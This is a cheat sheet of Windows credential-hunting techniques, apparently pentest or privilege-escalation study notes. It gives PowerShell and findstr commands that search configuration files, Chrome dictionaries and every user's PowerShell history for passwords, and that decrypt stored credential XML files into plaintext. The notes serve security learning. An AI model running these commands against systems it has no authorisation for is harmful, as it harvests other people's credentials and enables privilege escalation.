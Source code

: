 ## Credential Hunting Commands

## Search for "password" in common configuration file types
```powershell
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml
```

## Search for "password" in Chrome's Custom Dictionary
```powershell
gc 'C:\Users\<user>\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt' | Select-String password
```

## Get PowerShell history file path
```powershell
(Get-PSReadLineOption).HistorySavePath
```

## Read PowerShell command history
```powershell
gc (Get-PSReadLineOption).HistorySavePath
```

## Extract PowerShell history from all user profiles
```powershell
foreach($user in (Get-ChildItem C:\users).FullName){
    Get-Content "$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue
}
```

### Credential Extraction from XML

## Import credentials from an XML file
```powershell
Import-Clixml -Path 'C:\scripts\pass.xml'
```

## Extract username from the credential object
```powershell
$credential.GetNetworkCredential().username
```

## Extract password from the credential object
```powershell
$credential.GetNetworkCredential().password
```



## **Key Concepts:**

- **Credential Discovery:**
    - Locating stored passwords and other sensitive information.
    - Can lead to local or domain privilege escalation.
- **Application Configuration Files:**
    - Plaintext or weakly encrypted credentials in configuration files.
- **Dictionary Files:**
    - User-added words in application dictionaries (e.g., Chrome).
- **Unattended Installation Files:**
    - `unattend.xml` files with auto-logon or account creation credentials.
- **PowerShell History:**
    - Command history containing credentials.
- **PowerShell Credentials:**
    - Encrypted credentials using DPAPI.

**Approach, Commands, Tools, and Techniques:**

1. **Application Configuration Files:**
    - `findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml` (Search for keywords).
    - Manual inspection of `web.config` files.
2. **Dictionary Files:**
    - `gc 'C:\Users\<user>\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt' | Select-String password` (Read Chrome dictionary).
3. **Unattended Installation Files:**
    - Manual inspection of `unattend.xml` files.
4. **PowerShell History:**
    - `(Get-PSReadLineOption).HistorySavePath` (Get history file path).
    - `gc (Get-PSReadLineOption).HistorySavePath` (Read history file).
    - `foreach($user in ((ls C:\users).fullname)){cat "$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue}` (Read all accessible history files).
5. **PowerShell Credentials:**
    - `Import-Clixml -Path 'C:\scripts\pass.xml'` (Import credential object).
    - `$credential.GetNetworkCredential().username` (Get username).
    - `$credential.GetNetworkCredential().password` (Get password).

**Commands:**

- `findstr`
- `gc` (Get-Content)
- `(Get-PSReadLineOption).HistorySavePath`
- `Import-Clixml`

**Tools:**

- PowerShell.

**Techniques:**

- File searching.
- PowerShell scripting.
- DPAPI abuse (if applicable).
